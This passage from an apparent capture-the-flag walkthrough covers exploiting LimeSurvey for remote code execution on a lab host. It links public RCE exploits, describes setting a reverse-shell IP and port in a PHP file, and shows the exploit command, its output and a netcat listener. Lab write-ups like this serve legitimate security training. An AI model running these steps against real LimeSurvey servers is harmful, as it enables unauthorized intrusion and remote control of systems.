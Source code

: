 - GitHub repo: [Y1LD1R1M-1337/Limesurvey-RCE](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE/blob/main/exploit.py)
- Required files: `Y1LD1R1M.zip` and `php-rev.php` (must be in the same directory)
- **Important:** Modify `php-rev.php` to include your IP and port for the reverse shell

Run the exploit like this:

```bash
python3 exploit.py http://take-survey.heal.htb ralph 147258369 80
```

Sample output:

```
_______________LimeSurvey RCE_______________

Usage: python exploit.py URL username password port
Example: python exploit.py http://192.26.26.128 admin password 80

[+] Retrieving CSRF token...
[+] Sending Login Request...
[+] Login Successful
[+] Upload Plugin Request...
[+] Plugin Uploaded Successfully
[+] Install Plugin Request...
[+] Plugin Installed Successfully
[+] Activate Plugin Request...
[+] Plugin Activated Successfully
[+] Reverse Shell Starting, Check Your Connection :)
```

Then open a listener:

```bash
nc -lvnp 1234
```

---

## Step 3: Troubleshooting Compatibility Issues

**Problem:** Uploading the plugin manually gave an error:

> _The plugin is not compatible with your version of LimeSurvey._

This likely means the exploit was targeting a different version.

---

## Step 4: Using the Exploit for LimeSurvey 6.6.4

Found a better-suited exploit for **LimeSurvey 6.6.4** here:

- GitHub: [N4s1rl1/Limesurvey-6.6.4-RCE](https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE)
- Guide: [Medium writeup](https://nasirli.medium.com/limesurvey-6-6-4-rce-0a54c2c09c5e)

### Setup
